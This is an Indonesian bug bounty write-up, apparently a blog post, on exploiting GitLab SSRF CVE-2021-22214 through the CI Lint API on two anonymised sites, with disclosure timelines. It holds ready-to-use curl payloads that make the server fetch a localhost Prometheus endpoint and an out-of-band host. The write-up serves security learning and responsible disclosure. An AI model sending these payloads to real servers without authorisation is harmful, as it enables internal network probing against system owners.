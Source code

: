 ```yaml
---
layout: post
title: "[Write-Up] CVE-2021-22214 Gitlab SSRF di Website Lokal"
tags: [write-up, cve-2021-22214, gitlab, ssrf]
---
```


Dalam melanjutkan pencarian dan pembelajaran, di suatu hari, saya menemukan celah pada beberapa _website_ lokal. Berikut adalah write up serta tanggapan dari tim IT yang bersangkutan.

# Reconnaissance

Selalu, hal pertama yang dilakukan adalah _reconnaissance_ pada beberapa website lokal, saya melakukannya menggunakan tools [rEngine](https://github.com/yogeshojha/rengine). Tools yang sangat saya rekomendasikan dalam melakukan _bug bounty_. Beberapa waktu kemudian, rEngine menemukan sebuah celah dengan tingkat kerentanan tinggi, yaitu [GitLab SSRF (CVE-2021-22214)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22214). SSRF, menarik.

# Unauthenticated Gitlab CI Lint API SSRF CVE-2021-22214

Celah ini pertama kali ditemukan oleh user hackerone vin01. Dengan memanfaatkan celah pada CI Lint API milik Gitlab, _attacker_ dapat melakukan _Server-side Request Forgery (SSRF)_. 

## CI Lint API

[CI Lint](https://docs.gitlab.com/ee/api/lint.html) merupakan API Gitlab untuk mengecek atau memvalidasi konfigurasi CI/CD YAML. 

Request:
```bash
curl --header "Content-Type: application/json" --header "PRIVATE-TOKEN: <your_access_token>" "https://gitlab.example.com/api/v4/ci/lint" --data '{"content": "{ \"image\": \"ruby:2.6\", \"services\": [\"postgres\"], \"before_script\": [\"bundle install\", \"bundle exec rake db:create\"], \"variables\": {\"DB_NAME\": \"postgres\"}, \"types\": [\"test\", \"deploy\", \"notify\"], \"rspec\": { \"script\": \"rake spec\", \"tags\": [\"ruby\", \"postgres\"], \"only\": [\"branches\"]}}"}'
```
Response:
```json
{
  "status": "valid",
  "errors": [],
  "warnings": []
}
```

## Remote YAML includes

file konfigurasi CI untuk Gitlab adalah berformat YAML dan dapat menggunakan tag `include` untuk menyertakan (men-include-kan) template YAML dari remote URL

```bash
include:
  - 'https://gitlab.com/awesome-project/raw/main/.before-script-template.yml'
```

## Server-side Request Forgery (SSRF)

[Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf) merupakan celah pada server yang mengijinkan _attacker_ melakukan HTTP _request_ ke website atau domain lain semaunya. Mudahnya, seorang _attacker_ dapat membuat sebuah server mengakses website atau domain tertentu. Umumnya, server tidak dapat atau tidak boleh melakukan _request_ HTTP tanpa otorisasi. 

Celah pada gitlab adalah kita dapat melakukan POST pada endpoint `/api/v4/ci/lint` dengan menyertakan tag `include` tadi.

Request:
```bash
curl -s --show-error -H 'Content-Type: application/json' https://gitlab.example.com/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://127.0.0.1:9090/api/v1/targets?test.yml" }'
```

Response:
```json
{"status":"invalid","errors":["jobs status config should implement a script: or a trigger: keyword","jobs data config should implement a script: or a trigger: keyword","jobs config should contain at least one visible job"],"warnings":[],"merged_yaml":"---\nstatus: success\ndata:\n  activeTargets:\n  - discoveredLabels:\n      __address__: ...
```
Catatan: `test.yml` merupakan part penting dalam payload ini karena API hanya menerima ekstensi `.yml` untuk validasi remote YAML.

Celah ini akan menjadi berbahaya jika [_internal network request_](https://docs.gitlab.com/ee/security/webhooks.html) diaktifkan (secara default di non-aktifkan). Jika diaktifkan, maka kita dapat memanfaatkan celah ini untuk melakukan local port scanning.

# Temuan

Seperti yang sudah saya sebutkan diawal bahwa saya melakukan pemindaian terhadap beberapa website lokal, dan saya menemukan setidaknya 2 website yang memiliki domain gitlab. Kedua website tidak ingin saya menyebutkan apapun tentang mereka, maka saya akan menggunakan alias.

## Case 1: Temuan pada redacted-satu.com

Saya melakukan curl berikut

```bash
curl -s --show-error -H 'Content-Type: application/json' --data '{ "include_merged_yaml": true, "content": "include:\n  remote: https://IP-OOB/api/v1/targets?test.yml"}' https://redacted-satu.com/api/v4/ci/lint -k
```
IP-OOB merupakan IP out-of-band, kali ini saya menggunakan [interactsh](https://github.com/projectdiscovery/interactsh) karena mudah dan tidak perlu berbayar seperti burpcollabolator.

Dan, hit. Terlihat sebuah DNSLog pada interactsh.

![hit-1](/assets/img/posts/gitlab-ssrf-cve-2021-22214/interactsh-hit.png)

Segera saya laporkan ke tim terkait

### Timeline

- 16 September 2021 - Laporan dikirim
- 17 September 2021 - Laporan diterima dan sedang divalidasi
- 23 September 2021 - Temuan valid, celah terkait dengan aplikasi gitlab. Mereka mengapresiasi dan akan mengirimkan merchandise (yeay). Saya menanyakan severity temuan ini berdasarkan assesment tim IT mereka.
- 24 September 2021 - Mereka mengklasifikasikan temuan ini sebagai medium karena tidak merusak atau terkait dengan produksi. Saya terima saja, toh memang saya tidak mengeksploit lebih jauh. Case closed. 

Beberapa hari kemudian saya merchandisenya sudah sampai di rumah.

## Case 2: Temuan pada redacted-dua.com

Sama seperti temuan pada redacted-satu.com, saya menemukannya dalam waktu yang berdekatan, jadi saya laporkan setelah proof-of-concept yang lengkap sampai dengan DNSLog hit.

### Timeline

- 21 September 2021 - Laporan dikirim
- 22 September 2021 - Laporan diterima, dimintakan _proof of concept_ (POC) berupa dokumen dan video. Saya kirim saat itu juga.
- 23 September 2021 - Mereka meminta saya untuk menunjukan dampak yang lebih serius, karena berdasarkan investigasi internal mereka kategorikan temuan ini sebagai External SRRF (informative - out of scope). Well said. External SSRF merupakan SSRF dengan dampak paling minimal (low). Sayapun mencoba berbagai cara untuk mengeksploitasi temuan ini, seperti melakukan request menuju `localhost (192.0.0.1)` namun semua payload yang saya gunakan gagal. 
- 27 September 2021 - Setelah beberapa hari mencoba meng eksploitasi temuan saya ini dan gagal, saya sampai pada kesimpulan dan berargumen bahwa _internal network request_ dalam keadaan non-aktif sehingga saya tidak dapat memanfaatkan temuan ini untuk melakukan request menuju localhost, namun jika suatu saat diaktifkan, maka celah ini akan meningkat severity-nya, sehingga menurut saya celah ini tetap perlu diperbaiki. 
- 03 Oktober 2021 - Setelah diskusi internal mereka, mereka tetap pada pendirian bahwa severity tidak berubah, saran perbaikan diterima. Fair enough. Saya juga tidak bisa membuktikan kerentanan yang lebih serius. Maka saya sepakat untuk menutup issue ini. Case closed.

# Lesson learned

Ini adalah kali pertama saya menemukan bug pada sebuah website. Banyak pelajaran dan hikmah selama prosesnya. 

Saya jadi belajar bahwa setelah menemukan bug, jangan tergesa-gesa melaporkan, pelajari lebih jauh, eksplorasi lagi, mungkin ada celah lain yang dapat dimanfaatkan (chain of bugs) dan dapat meningkatkan dampak celah yang kita temukan. Gunakan bahasa yang sopan, well mannered, dan profesional dalam menulis laporan. Selalu sertakan proof of concept, no POC no bounty. Utamakan profesionalitas, jangan terlalu menekan pemilik website atau tim security website terkait, biasa saja. Utamakan ilmu dibanding dengan bounty. Setelah ilmu mencukupi, bounty akan mengikuti.

## Terima kasih

Semua pengalaman saya di atas tidak akan terjadi tanpa-Nya. Segala puja dan puji hanya untuk-Nya. Tidak lupa juga untuk teman dan mentor saya selama ini, yang selama diskusi dengan tim security terkait ia selalu membantu memberikan _insight_. Terakhir terima kasih kepada tim IT redacted-satu.com dan redacted-dua.com yang tidak ingin disebutkan yang dengan sabar berdiskusi dengan saya.

